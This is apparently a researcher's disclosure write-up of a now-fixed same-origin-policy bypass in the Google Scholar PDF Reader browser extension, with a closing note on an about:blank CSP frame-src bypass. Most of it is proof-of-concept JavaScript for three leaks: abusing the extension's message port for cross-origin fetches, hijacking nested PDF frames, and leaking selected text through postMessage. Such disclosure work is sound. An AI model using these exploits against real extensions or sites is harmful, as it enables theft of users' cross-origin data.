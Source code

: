 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({
  type: 'fetch',
  method: 'GET',
  url: 'https://www.google.com/something.json',
  id: 1,
});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location =
  'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
  let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
  let result = await reader.read();
  console.log(result.value);
};
parent.parent.postMessage(
  {type: 'fetch', url: 'https://services.google.com/example'},
  '*',
);
```

# Leak 3 (Without compromised renderer)

```js
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```

Selected text gets leaked cross-origin.

```js
onmessage = console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario

An attacker controlled website can bypass SOP if one of the following is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
